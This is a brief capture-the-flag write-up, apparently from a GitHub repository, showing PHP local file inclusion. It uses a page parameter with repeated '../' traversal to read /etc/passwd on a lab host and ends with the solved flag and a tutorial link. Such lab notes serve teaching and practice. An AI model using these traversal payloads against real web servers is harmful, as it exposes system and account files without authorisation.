 # PHP File Inclusion exploit
PHP's include() function can be exploited to view seemingly hidden files, such as configuration files.  
/etc/passwd file stores essential information, which required during login - it stores user account information.

# Local File Inclusion

### Step 1
> * Attack
> 1. http://0.0.0.0/?page=**included file**
> * trial and error with directory hierarchy:  
> _/etc/passwd ../../etc/passwd ../../../etc/passwd_  
> _http://0.0.0.0/?page=../../../../../../../etc/passwd_  
**Congratulaton!! The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0**

* https://null-byte.wonderhowto.com/how-to/exploit-php-file-inclusion-web-apps-0179955/